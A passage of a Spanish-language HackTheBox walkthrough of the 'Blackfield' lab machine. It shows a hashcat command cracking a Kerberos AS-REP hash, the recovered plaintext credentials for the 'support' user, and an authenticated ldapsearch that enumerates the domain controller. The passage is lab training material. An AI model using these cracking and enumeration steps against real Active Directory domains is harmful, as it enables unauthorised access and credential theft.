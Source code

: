 Y abro el archivo que se me genera y encuentro un hash del usuario `support`

![](/assets/images/HTB/Blackfield-HackTheBox/hash.webp)

A continuación voy a craquearlo usando hascat

```bash
hashcat -m 18200 hashes.hash /usr/share/wordlists/rockyou.txt --force
```

![](/assets/images/HTB/Blackfield-HackTheBox/hash-cracked.webp)

Listo, tenemos un usuario y una contraseña.

> `support:#00^BlackKnight`

Ahora que ya tengo credenciales vuelvo para atrás de nuevo para enumerar usuarios del Dominio pero a través de la herramienta enum4linux.

Encuentro varios usuarios nuevos.

![](/assets/images/HTB/Blackfield-HackTheBox/usuarios.webp)

Hay uno que me llama la atención, el usuario audit2020, ya que había uno de los recursos compartidos de SMB llamado forensic, al cual no tenía acceso pero igual ahora que tenemos este usuario nuevo podríamos obtener sus credenciales y conseguir acceso al recurso.

Además del usuario audit seguí enumerando a través de la herramienta ldap search y encontré el nombre del DC (Domain Controller)

```bash
ldapsearch -h 10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight' > ldapsearch

# DC01, Domain Controllers, BLACKFIELD.local
dn: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
cn: DC01
distinguishedName: CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
name: DC01
sAMAccountName: DC01$
serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=C
dNSHostName: DC01.BLACKFIELD.local
```
